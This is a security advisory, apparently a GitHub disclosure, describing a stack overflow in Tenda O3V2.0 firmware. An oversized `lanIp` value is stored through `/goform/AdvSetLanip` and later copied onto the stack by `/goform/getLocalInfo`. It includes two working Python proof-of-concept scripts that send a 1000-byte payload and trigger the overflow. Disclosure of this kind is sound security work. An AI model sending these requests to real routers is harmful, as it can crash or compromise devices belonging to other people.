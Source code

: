 ## Summary

A stack overflow vulnerability exists in the Tenda O3V2.0 V1.0.0.10(2478) firmware. The `lanIp` POST parameter accepted by `/goform/AdvSetLanip` is written to the configuration key `lan.ip` via `SetValue` without length or content validation. The stored value is later read (via `/goform/getLocalInfo`) and stored on the stack. Since there is no limit on the length of the stored value, it can lead to stack overflow.

## Affected product & versions

- **Vendor:** Tenda
- **Product:** O3V2.0 (firmware)
- **Affected version:** V1.0.0.10(2478)
- **Download:** https://www.tenda.com.cn/download/detail-2832.html

## Vulnerability type

- **Type**:Stack overflow
- **Root cause:** Missing input validation / insufficient sanitization and lack of length checks in `SetValue` and `GetValue` functions that handle `lan.ip`.

## Technical details

- The `AdvSetLanip` endpoint accepts a POST parameter `ip` and calls `SetValue("lan.ip", v13)` without enforcing a maximum length.

- Condition: For the program to execute this branch, the value of the POST parameter "lanType" must not be set to "Static".


![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251011_100849.png)

- The `getLocalInfo` endpoint retrieves the `ip` parameter using `GetValue("lan.ip", v6` and stores it on the stack without proper boundary checks, which may result in a stack overflow vulnerability.


![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251011_101449.png)

Both `SetValue` and `GetValue` lack proper validation of the value contents and length.

## Proof of Concept

1. **Store a malicious `lan.ip` value**

```python
# poc_set.py
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/AdvSetLanip"
payload = b"a"*1000

data = {"lanIp":payload,"lanType":"A"}
response = requests.post(url, data=data)
print(response.text)
```

2. **Trigger the vulnerable behavior**

```python
# poc_get.py
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/getLocalInfo"
response = requests.post(url)
print(response.text)
```

3. **Attack result**

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251011_104719.png)